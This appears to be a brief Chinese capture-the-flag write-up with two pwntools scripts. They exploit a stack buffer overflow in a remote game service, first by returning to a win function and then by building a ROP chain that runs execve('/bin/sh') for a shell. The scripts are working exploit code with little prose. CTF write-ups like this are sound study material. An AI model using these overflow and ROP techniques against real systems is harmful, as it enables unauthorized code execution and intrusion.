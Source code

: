第一问，可以 ret 到赢的位置去。

```python
from pwn import *

context.log_level='debug'

r=remote('202.38.93.111',10141)
r.recvuntil('Please input your token: ')
r.send('xxx:xxx\n')

target=0x402527
rbp=0x4a8320
payload=b'a'*0x90+p64(rbp)+p64(target)

def send(x):
	r.recvuntil('Your turn. Input like (x,y), such as (0,1): ')
	r.send(x+b'\n')

send(payload)
send(b'(0,1)')
send(b'(0,2)')
send(b'(1,2)')
r.interactive()
```

第二问，构造一个 rop 链。由于不知道栈地址，可以先重入 main，并且把栈地址（rbp）改成 bss 上的地址。

```python
from pwn import *

context.log_level='debug'

r=remote('202.38.93.111',10141)
r.recvuntil('Please input your token: ')
r.send('xxx:xxx\n')

target=0x4023fc
rbp=0x4a8320
payload=b'a'*0x90+p64(rbp)+p64(target)

def send(x):
	r.recvuntil('Your turn. Input like (x,y), such as (0,1): ')
	r.send(x+b'\n')

send(payload)
send(b'(0,1)')
send(b'(0,2)')
send(b'(1,2)')

rop=[
	0x4017b6,0x4a8297,
	0x407228,0,
	0x43dbb5,0,
	0x43e52c,59,
	0x402bf4
]
payload=b'(2,2)  /bin/sh\0'.ljust(0x98,b'a')+b''.join(map(p64,rop))
send(payload)

r.interactive()
```
